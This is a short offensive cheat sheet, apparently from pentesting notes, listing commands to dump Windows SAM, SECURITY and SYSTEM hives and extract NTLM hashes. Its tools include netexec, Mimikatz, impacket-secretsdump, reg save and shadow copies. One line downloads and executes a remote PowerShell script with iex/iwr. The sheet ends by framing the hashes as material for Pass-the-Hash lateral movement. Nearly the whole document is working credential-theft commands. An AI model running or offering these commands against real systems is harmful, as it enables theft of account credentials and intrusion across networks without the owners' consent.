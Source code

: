 # Extract Credentials from SAM

## Tools: CrackMapExec/Netexec , Meterpreter , Mimikatz , impacket-secretsdump , reg.py , vss shadow copies

#### 1) CrackMapExec/Netexec

    netexec smb IP_RANGE -u USER -p 'PASSWORD --sam

#### 2) Meterpreter

    hashdump

#### 3) Mimikatz

    mimikatz "privilege::debug" "lsadump::sam" "exit"

#### 4) Secretsdump

    impacket-secretsdump DOMAIN/USER:PASSWORD@IP

#### 5) Reg.py

    reg.py DOMAIN/USER:PASSWORD@IP backup -o '\\SMB_IP\share'

    impacket-secretsdump -security SECURITY_FILE -system SYSTEM_FILE LOCAL

#### 6) Shadow Copies (vss)

    diskshadow list shadows all

    mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\Harddisk VolumeShadowCopy1\

#### 7) SAM , SYSTEM and SECURITY hives backup copies

    reg save HKLM\SAM SAM_COPY

    reg save HKLM\SECURITY SECURITY_COPY

    reg save HKLM\SYSTEM SYSTEM_FILE

    impacket-secretsdump -system SYSTEM -sam SAM LOCAL

#### 8) HiveDump

##### Load into memory

    iex (iwr -UseBasicParsing https://raw.githubusercontent.com/tmenochet/PowerDump/master/HiveDump.ps1)

##### Dump

    Invoke-HiveDump

### With dumping the SAM hive, we dump NTLM hashes to perform Pass-the-Hash attacks (Lateral Movement)
